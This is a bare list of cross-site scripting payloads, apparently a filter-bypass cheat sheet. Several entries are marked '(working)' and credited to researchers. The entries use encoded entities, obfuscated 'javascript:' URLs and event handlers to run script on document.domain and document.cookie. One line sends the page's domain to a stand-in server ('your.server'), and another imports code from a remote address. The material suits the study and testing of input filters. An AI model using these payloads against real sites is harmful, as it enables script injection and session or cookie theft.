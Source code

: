 
<a"/onclick=(confirm)()>Click Here!
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic
"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic
"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> - @itsgeekymonk
<svg on onload=(alert)(document.domain)> -@zapstiko
<svg/on%20onload=alert(1)> (working) -@aufzayed
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_mi